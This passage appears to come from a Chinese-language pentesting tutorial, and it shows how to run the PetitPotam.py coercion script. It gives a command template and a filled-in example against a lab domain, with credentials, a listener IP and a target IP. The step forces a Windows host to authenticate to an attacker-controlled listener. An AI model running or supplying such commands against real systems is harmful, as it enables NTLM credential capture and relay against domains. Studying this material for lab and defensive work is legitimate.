 [![](assets/1701606771-972988b83ef554a49e41c4632e29fcc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144413-e5c16242-7c6f-1.png)  
c、使用 Petitpotam.py 脚本  
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

```bash
#格式：
python Petitpotam.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 PetitPotam.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.160
```
